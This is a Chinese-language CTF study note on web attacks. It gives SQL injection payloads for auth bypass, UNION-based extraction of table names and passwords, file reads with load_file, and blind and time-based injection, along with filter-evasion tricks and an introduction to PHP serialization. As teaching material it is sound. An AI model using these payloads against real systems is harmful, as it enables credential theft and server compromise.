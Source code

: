 
# Web 专题

## Web 专题一 SQL注入

### SQL注入基础

常见 SQL 查询语句： 

- `$sql=select xxx from xxx where ...`
	- `user='$username' and password='$password'`
	- `id=$id`

在进行 SQL 注入之前，首先需要搞清楚 SQL 查询语句的闭合方式，即是单引号闭合、双引号闭合还是数字类型

具体而言：

- 如果输入 `'` 没有报错(报错显示什么得看源代码的结构)，那么查询语句一般是双引号闭合
	- 构成 `select xxx from xxx where user="'"`
- 如果输入 `"` 没有报错，那么查询语句一般是单引号闭合
	- 构成 `select xxx from xxx where user='"'`
- 如果上述两个方式都报错了，那么很可能是数字类型
	- 构成 `select xxx from xxx where id='`

!!! warning "上述只是一般论，实战中请做好自己的判断"

知道闭合类型后，就可以开始尝试构建一个能够返回数据的 payload 了

由于数字类型的 SQL 查询非常少见，我们演示的均为 *单引号闭合类型* ，比如一个非常常见的注入方式： `' or ''='`

此时，替换得到的查询语句为 `select xxx from xxx where user='' or ''=''` ，条件恒为 **True** 

常见的万能密码如下，不过一般也没什么大用处

- `admin' -- `
- `admin' #`
- `admin'/*`
- `' or 1=1-- `
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1-- `
- `') or ('1'='1-- `

!!! tip "`--` 后面需要加一个空格才能起到注释作用"

### 基本注入方式

SQL 的注入分为 **有回显** 和 **无回显** ，其二者所需要的注入方式大不相同

#### 有回显注入

有回显，顾名思义就是会返回你查询到的数据。对于此种注入，最常见的方法就是使用 `UNION SELECT` 联合查询自己想要得到的数据

由于我们一般不清楚查询的表单会返回多少字段数据，所以在 `UNION SELECT` 之前，一般要用 `ORDER BY` 来测试，`ORDER BY n` 当你查询到的字段数大于 n ，不会报错；反之，则会报错，藉此确定我们 `UNION SELECT` 后要接多少条数据

!!! note "不用 ORDER BY 也可以"
	事实上，你也可以直接选择 `UNION SELECT 1,2,3,...` ，一直试到报错即可

确定字段数后，就可以为所欲为的爆出数据库的信息了，下面均以字段数为 1 的有回显注入为例子：

假设有查询语句： 
`$SQL=select xxx from xxx where user=''`

- `admin' union select DATABASE()#` 
	- 爆出数据库名
- `admin' union select group_concat(table_name) from information_schema.tables where table_schema=DATABASE()#`
	- MySQL 中有 `infomation_schema` ，存储着该数据库里面表单的各种数据
	- 爆出该数据库内的所有表名
- `admin' union select GROUP_CONCAT(PASSWORD) FROM USERS)#`
	- 假设该数据库内有表单名为 `USERS` ，且有列名为 `PASSWORD`
	- 其实列名也可以通过类似方式在 `infomation_schema` 中爆出，请自行探索
	- 爆出表中的所有 `PASSWORD`
- `admin' union select load_file('/home/flag.txt')#`
	- 读取服务器上文件数据
	- 在对方服务器允许的情况下，什么可以使用 `into file` 来写入文件(一般不允许就是了)

注入常见参数如下：

- `user()`：当前数据库用户
- `database()`：当前数据库名
- `version()`：当前使用的数据库版本
- `@@datadir`：数据库存储数据路径
- `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`
- `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来
- `concat_ws()`：用法类似
- `hex()` 和 `unhex()`：用于 hex 编码解码
- `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`
- `select xxoo into outfile '路径'`：权限较高时可直接写文件

#### 无回显注入

无回显注入是看不到你查询到的数据是如何的，有些题目的报错界面甚至就是一个空白，但是我们仍然可以利用 `SUBSTR` 函数来对其进行判断

假设有一个登录界面，只有你登录成功的时候会有消息提示，且查询语句为 `select xxx from xxx where user='$username' and password='$password'` 那么：

- `password=111&username=0' or ascii(substr(DATABASE(),1,1))>96#`
	- 判断 DATABASE() 的第一位字符的ASCII码是否大于96，是的话返回登录成功
	- 后面关于 password 的判定直接被注释掉了，所以无关大雅
- 其它注入与有回显类似，只是方式不同，且麻烦了些

!!! quote "SLEEP"
	有时，还可以选择使用 `SLEEP` 函数来实现对结果的判断，`password=111&username=admin' and if(ascii(substr(DATABASE(),1,1))>0,sleep(2),sleep(5))#`
	
	注意，if 语句前需要使用 and 而不能是 or ，因为用 or 的话每次会遍历一遍表单，没有一行数据都会对 if 进行一次判断，导致延时过久

### 注入检测的绕过

#### 同义词替换

- `and` **=>** `&&`
- `or` **=>** `||`
- `Space` **=>** `/**/` (或写一个更加复杂的注释，如 `/*//+-*/`)

#### 大小写绕过

由于 SQL 一般不区分大小写，所以如果题目对查询语句正则，有时可以将被过滤的管检测改为大小写混乱分布，如 `UnIoN` 

#### 可执行注释

在 MySQL 中，`/*!50000 */` 这种格式的注释，在 MySQL 版本大于 5.00.00 的时候是会执行注释内部的语句的，根据自己需求把 50000 改成其它数字即可，但要注意一定是五位数


#### URL编码编码绕过

在 BurpSuite 中通过改包上传数据时，可以用 URL 编码替换等价字符来尝试绕过对关键词的检测

如下为常用URL编码：

- `Space` : %20
- `#` :  %23
- `'` :  %27
- `"` :  %22
- `+` :  %2B

有些服务器支持二次编码，比如 `%%37%63%%37%63` 最终会变为 `||` (or)

!!! tip "#+$-\_.!\*() 浏览器地址栏默认不编码，但是不意味着不能编码"



## Web 专题二 反序列化

php 将数据序列化和反序列化会用到两个函数

- **serialize** 将对象格式化成有序的字符串
- **unserialize** 将字符串还原成原来的对象

!!! quote "在PHP中，序列化和反序列化一般用做缓存，比如session缓存，cookie等。"

一个简单的例子如下：

```php
<?php
$user=array('xiao','shi','zi');
$user=serialize($user);
echo($user.PHP_EOL);
print_r(unserialize($user));
?>
/* Output
a:3:{i:0;s:4:"xiao";i:1;s:3:"shi";i:2;s:2:"zi";}
Array
(
    [0] => xiao
    [1] => shi
    [2] => zi
)
*
*上面输出中，i代表整型数据 int ，s代表字符串，后接长度
*/
```

---

```php
<?php
 
class FileHandler {
    public  $op = 2;
    public  $filename = "flag.php";
}
 
$a = new FileHandler();
$b = serialize($a);
echo $b;
 
?>
# Output: O:11:"FileHandler":2:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";}
```